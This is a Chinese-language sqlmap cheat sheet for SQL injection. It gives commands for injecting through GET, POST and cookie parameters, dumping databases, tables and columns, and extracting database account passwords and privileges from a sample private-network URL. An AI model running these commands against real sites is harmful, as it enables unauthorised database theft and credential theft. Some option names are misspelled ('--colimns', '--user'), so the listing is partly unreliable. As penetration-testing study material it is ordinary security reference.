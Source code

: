 # 0x00 SQL注入方法

    1） GET：sqlmap -u "注入点URL"
    2）POST：sqlmap -u "注入点URL" --data "a=ichunqiu"
    3）cookie：sqlmap -u "注入点URL" --cookie "a=ichunqiu"
       X-Forwarded-For等：访问时，用burpsuite抓包，注入处用 * 替换，放到文件中，-> sqlmap -r "文件地址"


# 0x01 sql注入流程

## --current-db 获取当前库名

	sqlmap -u http://192.168.1.3:8008/onews.asp?id=45 --current-db

## --tables -D "db_name"  获取库中表名

	sqlmap -u http://192.168.1.3:8008/onews.asp?id=45 --tables -D "db_name"

## --columns -T "table_name" -D "db_name"  获取某个表名的列名

	sqlmap -u http://192.168.1.3:8008/onews.asp?id=45 --columns -T "table_name" -D "db_name"

## --dump -C "column_name”-T "table_name" -D "db_name"  获取该库中某个表名中的某个列名的字段内容

	sqlmap -u http://192.168.1.3:8008/onews.asp?id=45 --dump -C "column_name" -T "table_name" -D "db_name"


# 0x02 非关系型数据库MongoDB、NoSQL

    sqlmap并不支持对这两类数据库的注入，针对此，我们有NoSQLMap

# 0x03 常用的

	-u 扫描注入点扫描目标主机，检测出的信息准确    指定注入点是否可用
	--dbs   暴库，显示所有数据库名称
	--current-db    显示当前使用数据库
	--current-user    显示当前使用账户
	--user    列出所有用户
	--passwords    数据库账户和密码
	-D    指定数据库名称
	--tables    列出表
	-T    指定要列出字段的表
	--colimns    列出字段
	-C 制定要暴的字段
	--dump    将结果导出
	--start     指定开始行
	--stop    指定结束行
	--banner 数据库信息

--batch    程序自动输入若干询问语句的答案[y/n]

	sqlmap -u http://192.168.1.3:8008/onews.asp?id=45  --batch

--count 获取当前数据库量，大小

	sqlmap -u http://192.168.1.3:8008/onews.asp?id=45 --count -D "db_name"

--privileges 判断用户权限

	sqlmap -u http://192.168.1.3:8008/onews.asp?id=45 --privileges
	Microsoft SQL Server : sa
	Mysql : root